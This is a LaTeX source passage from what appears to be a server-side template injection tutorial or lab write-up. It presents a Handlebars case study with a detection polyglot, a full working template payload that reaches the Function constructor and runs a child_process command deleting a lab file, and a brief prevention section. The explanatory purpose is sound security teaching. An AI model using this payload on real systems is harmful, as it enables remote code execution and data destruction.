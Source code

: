 \documentclass{article}
\begin{document}
\subsection{Case Study: Handlebars (Node.js) - Prototype Pollution/Logic Bypass}
This case study involves a GET request where a \texttt{message} parameter is rendered on the home page.

\begin{enumerate}
    \item \textbf{Detection:} Injecting the polyglot \texttt{\$\{\{<\%[\%'"\}\}\%\textbackslash} triggers a Handlebars-specific error.
    \item \textbf{Identification:} Handlebars is often used in Node.js environments. Unlike Jinja2, it is logic-less by design, making exploitation much harder.
    \item \textbf{Exploit Strategy:} Exploitation requires bypassing the sandbox by accessing the \texttt{constructor} through object helpers like \texttt{\#with}. 
\end{enumerate}

\begin{lstlisting}[caption=Handlebars RCE Logic (Simplified)]
wrtz{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.push (lookup string.sub "constructor")}}
      {{#with string.split as |codelist|}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
\end{lstlisting}

\begin{infobox}
Even "logic-less" template engines like Handlebars can be exploited if an attacker can traverse the object tree to reach the Function constructor or high-level modules like \texttt{child\_process}.
\end{infobox}


\section{Prevention and Mitigation}

The root cause of SSTI is the blurring of the line between \textbf{data} and \textbf{code}. To secure an application, developers must ensure that user input is only ever treated as a literal string.
\end{document}

